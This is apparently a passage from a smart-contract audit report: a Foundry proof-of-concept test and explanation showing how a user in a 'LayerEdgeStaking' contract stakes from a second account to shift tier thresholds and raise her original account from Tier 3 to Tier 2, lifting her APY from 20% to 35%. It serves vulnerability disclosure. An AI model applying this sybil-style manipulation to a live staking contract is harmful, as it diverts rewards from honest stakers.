 ```solidity

        // alice creates another account and transfers some of her tokens to a new account
        // Now alice stakes from second account to improve her tier
        vm.startPrank(alice2);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        vm.stopPrank();

        (uint256 tier1CountManipulated, uint256 tier2CountManipulated, uint256 tier3CountManipulated) =
            staking.getTierCounts();
        assertEq(tier1CountManipulated, 1);
        assertEq(tier2CountManipulated, 2);
        assertEq(tier3CountManipulated, 4);

        // Check Alice's tier and APY again
        (, LayerEdgeStaking.Tier manipulatedTier, uint256 manipulatedApy,) = staking.getUserInfo(alice);
        assertEq(uint256(manipulatedTier), uint256(LayerEdgeStaking.Tier.Tier2));
        assertEq(manipulatedApy, 35 * PRECISION);
    }
```

test results
```solidity
Ran 1 test for test/stake/myTests.t.sol:LayerEdgePoCS
[PASS] test_PoC2() (gas: 3194609)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 27.03ms (6.18ms CPU time)
```
Test Explained:-

1. **Initial State**: 
           i) Bob (joinId 1) and Charlie (joinId 2) stake MIN_STAKE and are initially assigned to Tier 1 and Tier 2 respectively.
           ii) Alice (joinId 3) stakes LARGE_STAKE and, due to her joinId and the distribution of tiers, is 
               placed in Tier 3.
           iii) Harry, Eve, and Frank also stake MIN_STAKE and are placed in Tier 3.
           iv) The getTierCounts() confirms 1 Tier 1, 1 Tier 2, and 4 Tier 3 stakers.
           v)  Alice's initial tier is correctly identified as Tier 3 with an APY of 20%.
2. **Exploit Steps**:
           i) Alice, currently in Tier 3 with her primary account, creates a new account (alice2).
           ii) Alice, using alice2, stakes MIN_STAKE. This new account receives a new joinId (e.g., 7).
           iii) Although alice2 will be in a lower tier, the act of alice2 joining the stakerTree causes a re-calculation of tiers for all existing members. 
                Because the stakerCountInTree increases, the thresholds for the tiers shift.
3. **Outcome**:
           i) After alice2 stakes, the stakerCountInTree increases.
           ii) When Alice's (original account) tier is re-evaluated using _computeTierByRank, her rank relative to the increased stakerCountInTree now 
              falls within the boundaries of Tier 2.
           iii) The getTierCounts() now shows 1 Tier 1, 2 Tier 2, and 4 Tier 3 stakers.
           iv) Alice's original account (alice) is successfully promoted from Tier 3 to Tier 2, and her APY increases from 20% to 35%.
